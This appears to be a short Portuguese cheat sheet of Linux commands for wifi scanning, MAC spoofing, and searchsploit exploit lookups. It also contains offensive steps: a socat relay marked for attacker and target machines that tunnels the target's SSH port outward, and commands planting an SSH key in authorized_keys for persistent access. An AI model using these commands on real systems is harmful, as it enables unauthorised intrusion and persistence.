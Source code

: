 # Comandos Linux



# Wifi no terminal

- sudo iwconfig  // dispositivos wifi
- sudo iwlist wlan0 scan  // listando redes wifi 
- sudo iwlist wllan0 scan | grep ESSID  // listando redes wifi, filtrando apenas nomes
- nmcli d wifi connect SSIDredeWifi password suasenha // conecta na rede wifi

- macchanger -r eth0
- macchanger -p eth0
- macchanger -m mac eth0

- ipcalc 192.168.1.1/255.255.255.0
-------------
- searchsploit "ipfire" --exclude="algum|outra"
- searchsploit -e "ipfire"
- searchsploit "ipfire" --id
- searchsploit "ipfire" --id -m 44433
- searchsploit "ipfire" -m 44433.py
-------------
- socat TCP-LISTEN:8443,reuseaddr,fork TCP-LISTEN:2222,reuseaddr    #ouvindo atacante
- socat TCP4:172.20.1.6:8443 TCP4:127.0.0.1:22                      #maquina alvo
-----------
- ssh-keygen -f minhachave #criando chave publica ssh
- mkdir ~www-data
- mkdir ~/.ssh/
- touch ~/.ssh/authorized_keys
- echo "key ssh-rsa" > ~/.ssh/authorized_keys
- -----------------
